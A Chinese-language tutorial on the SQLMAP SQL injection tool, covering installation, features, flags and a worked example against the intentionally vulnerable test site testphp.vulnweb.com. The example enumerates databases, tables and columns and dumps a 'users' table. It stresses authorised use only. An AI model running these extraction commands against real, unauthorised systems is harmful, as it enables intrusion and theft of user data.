 ![file](https://s2.loli.net/2025/04/23/7mhkuPcFdTv5Yg8.png)

## 一、什么是 SQLMAP？

SQLMAP 是一个开源的自动化 SQL 注入工具，用于发现和利用 SQL 注入漏洞，还可以帮助用户接管数据库系统。它由 Python 编写，功能非常强大，适合在授权的渗透测试或安全评估中使用。

项目主页：  
https://github.com/sqlmapproject/sqlmap

---

## 二、SQLMAP 的主要功能

1. 自动识别 SQL 注入漏洞
2. 自动识别数据库类型（MySQL、PostgreSQL、Oracle、MSSQL 等）
3. 获取数据库、数据表、字段等结构信息
4. 提取数据库中的数据
5. 自动识别注入类型（布尔型盲注、时间盲注、联合注入等）
6. 支持代理、Cookie、自定义请求头等参数设置
7. 在具备高权限时支持执行系统命令、读取/写入文件等操作

---

## 三、如何使用 SQLMAP

### 1. 安装

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
```

运行帮助命令：

```bash
python sqlmap.py -h
```

---

### 2. 使用流程（举例）

假设你测试的目标是这个 URL：  
`http://testphp.vulnweb.com/listproducts.php?cat=1`

1. 检测是否存在注入

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --batch
```

2. 查看数据库列表

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
```

3. 查看某个数据库下的表

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
```

4. 查看表中字段

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns
```

5. 导出字段数据

```bash
python sqlmap.py -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --dump
```

---

### 3. 常用参数说明

- `-u`：目标 URL
- `--data`：用于 POST 请求
- `-p`：指定要测试的参数
- `--cookie`：添加 Cookie（例如登录态）
- `--user-agent`：自定义 User-Agent
- `--proxy`：使用代理，如 Burp Suite (`http://127.0.0.1:8080`)
- `--dbs`：列出数据库
- `--tables`：列出数据表
- `--columns`：列出字段
- `--dump`：导出数据
- `--batch`：自动接受默认选项，适合自动化脚本

---

## 四、注意事项

- 仅在授权范围内使用 SQLMAP
- 切勿用于非法入侵或攻击他人系统
- 尽量在测试环境中操作，避免误操作导致数据损坏

